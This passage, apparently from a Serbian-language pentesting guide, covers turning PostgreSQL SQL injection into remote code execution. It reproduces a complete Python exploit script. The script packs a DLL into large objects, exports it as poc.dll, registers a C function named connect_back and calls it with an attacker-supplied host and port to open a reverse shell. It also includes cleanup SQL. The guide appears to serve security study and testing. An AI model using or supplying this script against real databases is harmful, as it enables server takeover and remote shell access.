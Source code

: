 _Napomena da ne morate dodavati ekstenziju `.dll` jer će funkcija za kreiranje dodati sama._

Za više informacija **pročitajte** [**originalnu publikaciju ovde**](https://srcincite.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html)**.**\
U toj publikaciji **ovo je bio** [**kod koji se koristi za generisanje postgres ekstenzije**](https://github.com/sourceincite/tools/blob/master/pgpwn.c) (_za naučiti kako kompajlirati postgres ekstenziju pročitajte neku od prethodnih verzija_).\
Na istoj stranici je dat **exploit za automatizaciju** ove tehnike:

```python
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
start = i * 2048
end   = (i+1) * 2048
if i == 0:
sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
else:
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
end   = (i+1) * 2048
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## Reference

